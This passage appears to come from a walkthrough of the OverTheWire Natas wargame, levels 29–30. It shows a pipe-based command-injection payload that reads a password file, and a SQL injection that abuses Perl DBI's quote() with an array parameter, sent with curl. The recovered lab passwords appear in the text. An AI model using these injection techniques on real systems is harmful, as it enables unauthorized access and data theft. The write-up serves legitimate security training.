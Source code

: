 We can bypass by using payload: `?file=|cat+/etc/na%27%27tas_webpass/na%27%27tas30%0A`.

```
wie9iexae0Daihohv8vuu3cei9wahf0e
```

### natas30

```php
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

    my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}
```

The `quote` method is secure if used properly. However, if the data type is a non-string type like NUMERIC, then quote will pass its first argument through without any quoting. This constitutes an opportunity for SQL injection.

So, we will supply an array instead of a string, the first element of the array will be our injection string, the second element will be in the type of NUMERIC. Then the Perl back-end will pass our injection without any applying any filtering and our injection will work, look like: `Select * FROM users where username=natas31 and password='' or 1`.

```shell
curl -X POST -d "username=natas31" -d "password='' or 1" -d "password=2" --user natas30:wie9iexae0Daihohv8vuu3cei9wahf0e http://natas30.natas.labs.overthewire.org/index.pl
```

```
<!-- morla/10111 <3  happy birthday OverTheWire! <3  -->

<h1>natas30</h1>
<div id="content">

<form action="index.pl" method="POST">
Username: <input name="username"><br>
Password: <input name="password" type="password"><br>
<input type="submit" value="login" />
</form>
win!<br>here is your result:<br>natas31hay7aecuungiuKaezuathuk9biin0pu1<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
